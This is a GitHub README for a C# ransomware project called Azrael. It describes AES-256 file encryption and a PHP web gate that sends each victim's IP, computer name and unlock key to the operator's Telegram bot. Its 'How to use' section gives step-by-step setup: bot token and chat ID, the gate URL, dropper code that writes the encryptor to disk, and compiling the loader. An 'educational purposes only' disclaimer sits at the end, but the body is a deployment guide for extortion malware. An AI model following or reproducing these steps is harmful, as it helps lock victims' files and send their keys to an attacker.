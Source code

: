 # Azrael-Ransomware
![CSHARP](https://img.shields.io/badge/Language-CSHARP-aqua?style=for-the-badge&logo=CS)
![](banner.png)

## 📑 About
```
This is a simple ransomware-example writed in C#.
Yes, many functions and its implementation is weak, but I think this example is worth being.
```
### 💾 Features:
 * Size: 800kb
 * Using Algorithm for Encryption: AES-256
 * Uses a gateway to redirect encrypted information and the unlock key, sending it directly to the telegram bot.
 * Divided into modules: Loader, Encryptor, Form(include decrypt-function) 

## 🏴‍☠️ Video-Fragment
https://github.com/K3rnel-Dev/Azrael-Ransomware/assets/132711888/ecfe921a-0321-4062-baa0-2e6eb6e9bc1c


## 💻 Working Graph
<p float="left">
  <img alt="screen" width="700" src="Working_graph.png">
</p> 

## How to use?
 * Create bot in telegram: @BotFather and get your chatid with bot @getmyid_bot
 * Put this data in web-gate(src/WebResender/gate.php)
 ```php
$botToken = 'YOUR-TELEGRAM-BOT-TOKEN';
$chatId = 'YOUR-TELEGRAM-CHAT-ID';
$message = "[🏴‍☠️] New-Victim Computer!\nIP: $API_IP\nPC: $PC\nKey: $key";
 ```
 * And change url to your web-gate:
 ```csharp
public static readonly string UrlServer = "http://127.0.0.1/resender.php"; // Your web-gate
 ```
 * Then compile the FORM(FORM.EXE) and encryptor(ENC.EXE) and then add these two resources to the loader, the main thing is that they are compatible with the names
 (src/Azrael_Loader/Modules/Dropper.cs):
```csharp
16 File.WriteAllBytes(encPath, Properties.Resources.enc);
26 File.WriteAllBytes(formPath, Properties.Resources.Form);
```
 * After this, compile the loader and the project compilation is complete!.
 * Note: (If you want, you can change the keys to whatever you want).


 ### 🕸️ Notation (if ):
 > If you decide to rewrite this project, you will need .net framework 4.

## ⚠️ Disclaimer - this project for education and purposes only!
```
This open-source example ransomware is provided for educational purposes only. 
The author assumes no responsibility for any misuse or illegal activities performed with this software.
Users are solely responsible for ensuring that their use of this tool complies with all applicable laws and regulations.
```
